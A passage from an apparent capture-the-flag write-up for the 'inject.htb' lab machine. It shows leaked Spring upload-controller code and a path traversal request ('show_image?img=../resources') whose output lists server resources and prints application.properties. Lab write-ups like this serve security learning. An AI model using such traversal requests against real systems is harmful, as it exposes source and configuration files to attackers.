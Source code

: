         @PostMapping("/upload")
        public String Upload(@RequestParam("file") MultipartFile file, Model model){
            String fileName = StringUtils.cleanPath(file.getOriginalFilename());
            if (!file.isEmpty() && !fileName.contains("/")){
                String mimetype = new MimetypesFileTypeMap().getContentType(fileName);
                String type = mimetype.split("/")[0];
                if (type.equals("image")){

                    try {
                        Path path = Paths.get(UPLOADED_FOLDER+fileName);
                        Files.copy(file.getInputStream(),path, StandardCopyOption.REPLACE_EXISTING);
                    } catch (IOException e){
                        e.printStackTrace();
                    }
                    model.addAttribute("name", fileName);
                    model.addAttribute("message", "Uploaded!");
                } else {
                    model.addAttribute("message", "Only image files are accepted!");
                }
                
            } else {
                model.addAttribute("message", "Please Upload a file!");
            }
            return "upload";
        }

        @GetMapping("/release_notes")
        public String changelog(){
            return "change";
        }

        @GetMapping("/blogs")
        public String blogPage(){
            return "blog";
        }
        
    }
    ```

    **springframework** is used and in the db maybe there could be a table named `zodd_users`
    

<br><br>

- `python3 httpget.py "http://inject.htb:8080/show_image?img=../resources"`
    ```
    application.properties
    media
    META-INF
    static
    templates
    ```

    `application.properties`
    ```
    server.tomcat.relaxed-query-chars=|,{,},[,]
    server.error.whitelabel.enabled=false
    spring.main.allow-circular-references=true
    spring.servlet.multipart.max-file-size=1MB
    spring.servlet.multipart.max-request-size=2MB
    spring.cloud.config.uri=
    spring.cloud.config.allow-override=true
    debug=false
    server.error.include-message=always
    ```
